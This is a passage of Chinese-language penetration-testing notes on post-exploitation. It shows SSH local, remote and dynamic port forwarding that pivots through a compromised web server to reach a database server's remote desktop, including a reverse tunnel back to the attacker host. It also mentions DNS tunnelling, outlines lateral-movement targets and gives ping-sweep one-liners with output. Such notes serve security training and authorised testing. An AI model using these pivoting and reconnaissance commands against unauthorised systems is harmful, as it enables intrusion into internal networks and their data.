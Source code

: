 攻击机：192.168.1.1
web服务器：192.168.1.2
数据库服务器：192.168.1.3

攻击机无法访问数据库服务器，但可以访问web服务器且已获得web服务器的权限，web服务器和数据库服务器可以互相访问的场景

攻击机执行：`ssh -fCNg -L 2022:192.168.1.1:3389 root@192.168.1.2 -p 22`

攻击机去连接web服务器，连上之后由web服务器去连接数据库服务器的3389端口并把数据通过SSH通道传给攻击机，此时在攻击机访问本地2022端口即可打开数据库服务器的远程桌面

**远程转发**

攻击机无法访问数据库服务器，也无法访问web服务器但已获得web服务器的权限，web服务器和数据库服务器可以互相访问，web服务器可以访问具有公网IP的攻击机,通过访问攻击机本机的2022端口来访问数据库服务器的3389端口

在web服务器上执行：`ssh -CfNg -R 2022:192.168.1.3:3389 root@192.168.1.1`

此时在攻击机访问本地2022端口即可打开数据库服务器的远程桌面

**动态转发**

① 攻击机执行：ssh -CfNg -D 2022 root@192.168.1.2
② 本地设置socks代理后即可访问数据库服务器

##### 4.5 DNS（iodine）

要使用此隧道，您需要一个真实的域名（如mydomain.com），以及一个具有公共 IP 地址的服务器以在其上运行iodined；

## 横向移动

通常进入内网后，同样会进行内网信息收集、域内信息收集，在通过收集的信息进行内网漫游横向渗透扩大战果，在内网漫游过程中，会重点关注邮件服务器权限、OA系统权限、版本控制服务器权限、集中运维管理平台权限、统一认证系统权限、域控权限等位置，尝试突破核心系统权限、控制核心业务、获取核心数据，最终完成目标突破工作。

#### 内网主机存活探测

##### 1.ICMP

```
Windows：
for /l %i in (1,1,255) do @ping 192.168.1.%i -w 1 -n 1|find /i "ttl="
​
C:\Users\test>for /l %i in (1,1,255) do @ping 192.168.1.%i -w 1 -n 1|find /i "ttl="
来自 192.168.1.1 的回复: 字节=32 时间=2ms TTL=254
来自 192.168.1.3 的回复: 字节=32 时间=127ms TTL=64
来自 192.168.1.5 的回复: 字节=32 时间=14ms TTL=64

Linux：
for i in $( seq 1 255);do ping -c 2 192.168.1.$i|grep "ttl"|awk -F "[ :]+" '{print $4}'; done
​
root@localhost:~# for i in $( seq 1 255);do ping -c 2 192.168.1.$i|grep "ttl"|awk -F "[ :]+" '{print $4}'; done
192.168.1.1
192.168.1.3
192.168.1.5
```

##### 2.nmap
